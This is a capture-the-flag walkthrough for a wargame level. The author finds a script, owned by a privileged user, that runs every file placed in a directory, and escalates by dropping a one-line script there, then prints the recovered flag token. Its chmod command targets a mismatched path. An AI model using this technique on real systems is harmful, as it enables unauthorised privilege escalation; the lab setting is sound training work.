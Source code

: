 

# **Level05**

### **Walk through**

This time, `ls -la` gives us nothing. We try: 

`find / -user flag05 -group flag05 2>/dev/null | grep -v proc` that gives us:

```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

When we `cat /usr/sbin/openarenaserver`  we obtain this output:

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
It's a script bash. This script loop over everything in the directory. `ulimit -t 5` gives a limit of 5 seconds of CPU time. `bash -x "$i"` execute **$i** and the **-x** print the command in the standard error output. After the execution of a file, this one is deleted. 

So the idea is to write a script that will be store in `/opt/openarenaserver/` and executed by the script just above.

To do so, 

`echo "getflag > /tmp/flag05" > /opt/openarenaserver/script.sh`  
`chmod +x /opt/openarenaserver.sh`  

Now all we have to do is:

`cat /tmp/flag05` until the flag appears **`viuaaale9huek52boumoomioc`**

We will use it to log as level06

`su level06`

